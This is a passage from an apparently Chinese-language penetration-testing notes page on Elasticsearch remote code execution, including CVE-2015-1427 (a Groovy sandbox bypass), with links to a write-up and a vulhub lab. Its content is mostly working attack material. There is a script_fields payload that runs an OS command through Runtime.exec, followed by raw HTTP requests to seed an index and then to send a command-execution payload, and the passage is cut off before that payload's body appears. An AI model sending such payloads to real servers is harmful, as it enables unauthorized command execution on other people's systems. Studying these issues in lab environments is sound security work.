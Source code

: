     {
        "size": 1,
        "query": {
        "filtered": {
            "query": {
            "match_all": {
            }
            }
        }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
    }
    ```

**CVE-2015-1427 Groovy 沙盒绕过 && 代码执行漏洞**

- 文章
    - [Remote Code Execution in Elasticsearch - CVE-2015-1427](https://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/)

- POC | Payload | exp

    来源: [ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞 (CVE-2015-1427) 测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2015-1427/)

    由于查询时至少要求es中有一条数据,所以发送如下数据包,增加一个数据：
    ```
    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
    "name": "test"
    }
    ```

    然后发送包含 payload 的数据包,执行任意命令：
    ```
    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/text
    Content-Length: 156
